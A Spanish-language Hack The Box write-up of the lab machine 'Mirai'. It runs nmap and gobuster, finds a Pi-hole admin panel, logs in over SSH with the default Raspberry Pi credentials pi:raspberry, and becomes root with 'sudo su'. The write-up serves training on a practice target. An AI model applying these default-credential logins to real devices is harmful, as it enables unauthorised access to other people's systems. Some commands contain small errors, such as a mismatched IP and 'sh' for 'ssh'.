```yaml
---
layout: single
title: HTB-Mirai
excerpt: "WriteUp de la máquina HTB Mirai -- Type: Easy"
date: 2022-03-29
classes: wide
header:
  icon: /assets/images/hackthebox.webp
  teaser_home_page: true
  teaser: /assets/images/writeups/mirai/mirai.png
categories:
  - WriteUps
tags:
  - HTB
  - Easy

---
```


<centre><img src="/assets/images/writeups/mirai/mirai.png"></centre>

[Maquina](https://app.hackthebox.com/machines/64) 



## Reconocimiento

```bash
sudo nmap -sCV --min-rate 5000 -Pn 10.10.10.48 
```

```bash
Nmap scan report for 10.10.10.48
Host is up (0.038s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey: 
|   1024 aa:ef:5c:e0:8e:86:97:82:47:ff:4a:e5:40:18:90:c5 (DSA)
|   2048 e8:c1:9d:c5:43:ab:fe:61:23:3b:d7:e4:af:9b:74:18 (RSA)
|   256 b6:a0:78:38:d0:c8:10:94:8b:44:b2:ea:a0:17:42:2b (ECDSA)
|_  256 4d:68:40:f7:20:c4:e5:52:80:7a:44:38:b8:a2:a7:52 (ED25519)
53/tcp open  domain  dnsmasq 2.76
| dns-nsid: 
|_  bind.version: dnsmasq-2.76
80/tcp open  http    lighttpd 1.4.35
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: lighttpd/1.4.35
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Al comprobar que el puerto 80 esta abierto, nos disponemos a ver que se encuentra en él. Cuando entramos se encuentra en blanco, pero podemos usar la herramienta **dirbuster** para explorar el servidor web en busqueda de firectorios y ficheros en el.

Comando:
```bash
gobuster dir --url http://10.10.29.96/ -w /usr/share/seclists/Discovery/Web-Content/common.txt
```

Resultados:
```bash
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.48/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/03/29 12:27:48 Starting gobuster in directory enumeration mode
===============================================================
/_framework/blazor.webassembly.js (Status: 200) [Size: 61]
/admin                (Status: 301) [Size: 0] [--> http://10.10.10.48/admin/]
/swfobject.js         (Status: 200) [Size: 61]                               
                                                                             
===============================================================
2022/03/29 12:28:10 Finished
===============================================================
```

Al ver los resultados comprobamos que tiene un directorio **/admin** al cual comprobaremos si hay algo.

<centre><img src="/assets/images/mirai/pihole.png"></centre>

Nos encontramos que hay un panel de administracion llamado **Pi-Hole**
lo cual nos da una pista de que nos estamos enfrentando a un SO Raspbian.


## Explotación
Ahora que sabemos a que nos enfrentamos y la "temática" de la maquina, en la botnet de **Mirai** usaban usuarios y credenciales por defecto y las de un dispositivos con este SO son:

```txt
pi:raspberry
```

Intentamos conectarnos por SSH con estas credenciales.

```bash
sh pi@10.10.10.48 
```

Y vemos que nos da acceso a la shell de la máquina.

```bash
The authenticity of host '10.10.10.48 (10.10.10.48)' can't be established.
ED25519 key fingerprint is SHA256:TL7joF/Kz3rDLVFgQ1qkyXTnVQBTYrV44Y2oXyjOa60.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.48' (ED25519) to the list of known hosts.
pi@10.10.10.48's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Aug 27 14:47:50 2017 from localhost

SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.


SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

pi@raspberrypi:~ $ 
```

Usamos el comando **sudo su** para elevar privilegios y con ello ser root

```bash
pi@raspberrypi:~ $ sudo su
root@raspberrypi:/home/pi# 
```